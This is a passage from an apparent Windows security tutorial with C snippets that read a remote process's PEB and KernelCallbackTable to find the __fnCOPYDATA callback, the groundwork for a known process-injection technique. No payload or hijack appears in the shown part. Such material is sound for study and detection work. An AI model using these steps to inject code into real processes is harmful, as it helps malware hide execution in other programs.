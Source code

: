 - Interestingly, there is always a pointer, even if we haven't opened a process, because it's a local structure. The _**pbi**_ structure exists locally and doesn't depend on the process being opened. If _**hProc**_ fails, the call doesn't achieve anything, but the _**pbi**_ structure is still present locally.

- Now that we have the address of _**NtQueryInformationProcess**_, we can use it like a standard C function to retrieve the necessary information. To access the structure, define the following:
```c
PROCESS_BASIC_INFORMATION pbi;
```

- We can access elements using the dot operator, which will resolve correctly. To extract the PEB base address, use:
```c
NtQueryInformationProcess(hProc, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);
printf("PROCESS_BASIC_INFORMATION at 0x%p\n", &pbi);
printf("PROCESS_BASIC_INFORMATION PebBaseAddress at 0x%p\n", pbi.PebBaseAddress);
```

- Now we have the actual PEB base address inside the remote process. The key difference is that we are doing this in a remote process, requiring us to open the process and navigate through its memory to obtain this information.

> ### Step 3: Reading the PEB and KernelCallbackTable using _**ReadProcessMemory**_

- To read the information inside the PEB structure of the remote process, we define:
```c
PEB peb;
DWORD dwBytesRead = 0;
```

- We then use the _**ReadProcessMemory**_ WinAPI function to read from the PEB base address:
```c
ReadProcessMemory(hProc, pbi.PebBaseAddress, &peb, sizeof(PEB), &dwBytesRead);
printf("PEB at 0x%p. Read %d bytes\\n", peb, dwBytesRead);
```
This allows us to copy the PEB of the remote process into our current process.

- Next, we retrieve the KernelCallbackTable by defining:
```c
DWORD64 *dwKct;
KERNELCALLBACKTABLE kct;
```

- We then access the callback table offset at +0x58 using some casting:
```c
dwKct = *(DWORD64*)((unsigned char*)&peb + 0x58);
printf("KERNELCALLBACKTABLE at 0x%p\\n", dwKct);
```

- We define the _**KERNELCALLBACKTABLE**_ structure, which is not built into the compiler, so we source it from ReactOS and include it in our code before the _**main**_ function. We read the KernelCallbackTable data from the remote process:
```c
ReadProcessMemory(hProc, dwKct, &kct, sizeof(KERNELCALLBACKTABLE), &dwBytesRead);
printf("KERNELCALLBACKTABLE.__fnCOPYDATA at 0x%p. Read %d bytes\\n", kct.__fnCOPYDATA, dwBytesRead);
```
This allows us to access the _**fnCOPYDATA**_ element of the KernelCallbackTable in the remote process.
